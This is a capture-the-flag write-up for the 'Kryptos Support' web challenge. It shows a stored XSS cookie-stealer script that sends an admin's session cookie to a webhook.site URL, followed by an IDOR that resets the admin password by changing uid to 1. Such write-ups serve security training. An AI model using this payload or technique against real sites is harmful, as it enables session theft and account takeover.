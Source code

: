 # Kryptos Support

So we are greeted with a website with some input box, we send a message and see that admin will review ticket:

<figure><img src="../../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So maybe some sort of XSS where we have to steal cookie?

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We craft a quick cookie stealer:

```
<script>document.location='https://webhook.site/888b441e-ed74-4bba-8c87-e40f690d376a?c='+document.cookie</script>
```

And get a hit in our webhook:

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So we capture a session cookie

{% hint style="warning" %}
The payload broke the chal and breaks the redirection lol be careful
{% endhint %}

We see the redirection to /tickets

<figure><img src="../../../../.gitbook/assets/image (12) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And then we spot /settings:

<figure><img src="../../../../.gitbook/assets/image (13) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (14) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So we change the password and see the odd request:

<figure><img src="../../../../.gitbook/assets/image (15) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And from there it is very easy, we change uid to 1 to change the password of the admin and it works, so we can go back to /login and get the flag:

<figure><img src="../../../../.gitbook/assets/image (16) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
